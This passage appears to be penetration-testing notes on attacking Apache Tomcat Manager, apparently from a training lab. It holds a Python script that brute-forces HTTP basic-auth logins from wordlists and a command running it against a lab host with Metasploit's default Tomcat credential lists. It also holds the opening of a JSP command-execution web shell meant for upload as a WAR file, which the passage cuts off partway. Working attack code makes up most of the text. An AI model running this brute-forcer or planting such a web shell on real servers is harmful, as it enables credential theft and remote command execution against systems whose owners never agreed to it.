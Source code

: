 ```Python

args = parser.parse_args()

url = args.url
uri = args.path
users_file = args.usernames
passwords_file = args.passwords

new_url = url + uri
f_users = open(users_file, "rb")
f_pass = open(passwords_file, "rb")
usernames = [x.strip() for x in f_users]
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for u in usernames:
    for p in passwords:
        r = requests.get(new_url,auth = (u, p))

        if r.status_code == 200:
            cprint("\n[+] Success!!", "green", attrs = ['bold'])
            cprint("[+] Username : {}\n[+] Password : {}".format(u,p), "green", attrs = ['bold'])
            break
    if r.status_code == 200:
        break

if r.status_code != 200:
    cprint("\n[+] Failed!!", "red", attrs = ['bold'])
    cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
#print r.status_code
```

#### Running the Python script to brute force credentials for Tomcat application
```Shell
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

### Tomcat Manager - WAR File Upload

GUI Interface to manage the application is usually located at `/manager/html` by default. Only users assigned the `manager-gui` role are allowed to access.

#### JSP Webshell
```Java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
```